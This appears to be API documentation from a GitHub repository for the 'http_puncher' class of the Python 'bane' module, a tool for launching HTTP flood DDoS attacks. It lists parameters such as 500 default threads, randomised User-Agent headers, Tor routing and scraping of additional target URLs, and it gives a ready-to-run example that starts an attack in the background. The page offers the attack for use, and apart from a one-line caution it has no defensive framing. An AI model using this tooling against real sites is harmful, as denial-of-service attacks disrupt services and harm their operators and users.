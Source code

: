 <h1>http_puncher Class</h1>

<h2>Class Overview</h2>
<p>The <code>http_puncher</code> class is part of the "bane" module and is used for launching HTTP-based DDoS attacks on a target URL.</p>

<h2>Class Constructor</h2>
<pre><code>class http_puncher(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>http_puncher</code> class with the following parameters:</p>

<ul>
    <li><code>u</code> (str): The target URL for the DDoS attack.</li>
    <li><code>send_files</code> (bool): Enable or disable sending files in the attack (default is True).</li>
    <li><code>cookie</code> (str): Custom cookies to include in requests.</li>
    <li><code>user_agents</code> (list): List of custom User-Agent headers for requests.</li>
    <li><code>method</code> (int): HTTP request method (1 for GET, 2 for POST, 3 for random; default is 3).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>urls</code> (list): List of target URLs for the attack (default is an empty list).</li>
    <li><code>threads</code> (int): Number of threads for the attack (default is 500).</li>
    <li><code>timeout</code> (int): Request timeout in seconds (default is 5).</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is False).</li>
    <li><code>tor</code> (bool): Use Tor for requests (default is False).</li>
    <li><code>scrape_target</code> (bool): Scrape additional URLs for the attack (default is True).</li>
    <li><code>scraped_urls</code> (int): Number of scraped URLs (default is 32).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the DDoS attack by sending HTTP requests to the target URL with random headers and data. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>http_puncher</code> class, create an instance of it by providing the required parameters, and it will start launching DDoS attacks in the background. Here's an example:</p>

<pre><code>
from bane.ddos.utils import http_puncher

# Create an instance of http_puncher
ddos_attack = http_puncher(
    u="https://example.com",
    send_files=True,
    cookie="CustomCookie",
    user_agents=["UserAgent1", "UserAgent2"],
    method=3,
    threads_daemon=True,
    urls=["https://example.com/page1", "https://example.com/page2"],
    threads=500,
    timeout=5,
    duration=60,
    logs=True,
    tor=False,
    scrape_target=False,
    scraped_urls=5
)

# DDoS attack is launched in the background
# Monitor the attack's progress as needed

# To stop the attack, you can set ddos_attack.stop = True

# Be cautious and responsible when using DDoS attacks in a real environment.
</code></pre>
